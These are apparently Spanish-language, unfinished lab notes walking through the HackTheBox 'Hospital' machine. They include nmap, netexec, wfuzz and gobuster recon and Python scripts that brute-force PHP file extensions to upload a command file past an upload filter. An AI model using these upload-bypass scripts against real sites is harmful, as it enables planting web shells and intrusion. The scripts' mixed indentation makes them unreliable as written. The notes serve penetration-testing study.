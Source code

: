 
-----
- TAG: #DOMINIOS #NETEXEC #PYTHON #GOBUSTER
----
- Empezamos creando nuestra carpeta Hospital en nuestra terminal, creamos las tres carpetas que necesitaremos para guardar la información 
```
mkt
```

- Empezamos con el proceso de  reconocimiento con **nmap** 
```
ping -c 1 10.10.11.241
```

- Realizamos una auditoria a la red para ver que puertos potenciales estan abiertos
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.241 -oG allPorts
```

- Extraemos la información de los puertos abiertos con 
```
extractPorts allPorts
```
   - Recordemos que con `locate .nse` podemos observar todos los scripts escritos en lua de nmap los cuales contiene categorias.
   - Con `locate .nse | xargs grep "categories"` podemos filtrar por categorias

- Realizamos el escaneo a los puertos abiertos y guardamos el output en el archivo **targeted**
```
nmap -p(puertos) -sCV 10.10.11.241 -oN targeted
```
 - Ahora el formato lo podemos ver en archivo grepeable y con estilo java con `cat taget -l java`
 - Vemos información como el la versión de Ubuntu corriendo por el puerto `22` y podemos tirar de **Launchpad**, con esto obtenemos información que corre un sistema **Lunar** (Puede que este corriendo un sub-sistema dentro de una maquina **Linux**)

## Jugando con Netexec
- Si no tenemos instalado realizamos el siguiente procedimiento de  [Instalación de Netexec](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
- Lo tenemos guardado en /opt/Netexec
- Ahora podemos averiguar un poco mas o encontrar dominios, Para ello deberíamos estar en el directorio **/.local/bin**
```
pushd /opt/Netexec
poetry run netexec smb 10.10.11.241
```

 - Encontrando el dominio lo ingresamos en el **/etc/host** con la dirección ip de la maquina para que lo pueda leer nuestro sistema.
```
10.10.11.241 hospital.htb
```

- Podríamos enumerar un poco de rutas de la url con **wfuzz**
```
wfuzz -c --hc=404,403 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://10.10.11.241:443/FUZZ
```
   - Si refleja información o directorios podrias ingresar por la url, jugar un poco con mayúsculas y minúsculas con la palabra clave encontrada.

- Empezamos auditar la otra pagina **http** por el puerto **8080**
`http://hospital.htb:8080`
- Nos creamos un usuario y contraseña y nos logueamos 
- Empezamos auditar ciertas partes como información que nos de la url (usando **whatweb**) por ejemplo, interceptar información con **burpsuite**

----
- Creamos un archivo **extensions** con 
```
echo '.php , .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g' | sed 's/ //' >> extensions
```
	 1. luego lo subimos a burpsuite en intruder en la opción load
	 2. De igual manera en "Grep - Extract" colocar 'load' selecionar /failed.php y poner ok
	 3. Luego de eso empezamos con el ataque de fuerza bruta para ver posibles rutas

- Creamos nuestro escript para detectar rutas validas.
```
<?php
  echo "Hola probando";
?>
```

 - Creamos un archi **.py** para enlistar los **.php** con el codigo de estado
```
#!/usr/bin/env python3

import requests
import signal
import sys
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID': 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8081'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()

    for extension in extensions:
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
	r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        print(r.status_code)

if __name__ == '__main__':
    fileUpload()
 
```
>Si cambiamos `print(r.estatus_code)` por:
>`if "failed" not in r.headers["Location"]:`
>	    `print(colored(f"\n[+] Extensión {extension}: {r.headers['Location']}", 'green'))`
- Podemos realizar la misma función que realizamos con **burpsuite** utilizando **python**, con esta ultima función nos enlista todas las rutas **succes.php**.
- En este punto con el siguiente código en **python** nos permitiría ejecutar código **.php** en la url con probando con las rutas encontradas:
  `http://hospital.htb:8080/uploads/cmd.phar`
```
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID' : 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8080'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()
	
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	
	time.sleep(2)
	
    for extension in extensions:
	    p1.status(f"Probando con la extensión {extension}")
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
        r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        if "failed" not in r.headers["Location"]:
	        log.info(f"Extensión {extension}: {r.headers['Location']}")
if __name__ == '__main__':
    fileUpload()
```

- Ahora podriamos enlistar directorios existentes utilizando fuerza bruta usando **gobuster**
```
gobuster dir -u http://hospital.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

min 54:20 - borrar lineas y la url solo sirve ejecutando python3 fileUpload.py al parecer
continuar mañana..